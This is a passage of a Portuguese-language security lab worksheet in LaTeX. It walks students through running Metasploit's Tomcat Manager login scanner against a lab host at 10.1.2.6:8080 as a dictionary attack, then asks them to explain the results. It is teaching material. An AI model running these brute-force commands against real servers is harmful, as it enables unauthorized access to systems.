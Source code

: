 \documentclass{article}
\begin{document}
    \begin{verbatim}
        Name ... Description
        auxiliary/scanner/http/tomcat_mgr_login ... Tomcat Application Manager Login Utility
    \end{verbatim}

    Para usar este módulo digite:

    \begin{verbatim}
        msf > use auxiliary/scanner/http/tomcat_mgr_login
        msf > show options
    \end{verbatim}

    As opções mostram o que pode ser configurado para usar o módulo escolhido.
    Nem tudo precisa ser configurado.

    Digite os comandos abaixo. Copie e cole o screenshot da sua tela no
    relatório da tarefa ao realizar o experimento:

    \begin{verbatim}
        msf auxiliary(tomcat_mgr_login) > set RHOSTS 10.1.2.6
        msf auxiliary(tomcat_mgr_login) > set RPORT 8080 (Porta do Tomcat)
        msf auxiliary(tomcat_mgr_login) > exploit
    \end{verbatim}

    Este módulo executa um ataque do dicionário, utilizando os arquivos
    indicados nas variáveis indicadas acima. Neste ataque uma das combinações
    utilizadas poderá ser aceita pelo servidor.

    \begin{superframe}
        \begin{enumerate}
            \setcounter{enumi}{13}
            \item Copie e cole a screenshot da sua tela ao realizar o
                experimento anterior. Depois, explique o experimento:

                \begin{enumerate}
                    \item O que é o ataque do dicionário?
                    \item O que foi encontrado?
                    \item Qual foi a vulnerabilidade usada para obter esse
                        resultado?
                    \item Como pode ser explorado esse resultado?
                \end{enumerate}
        \end{enumerate}
    \end{superframe}
\end{document}
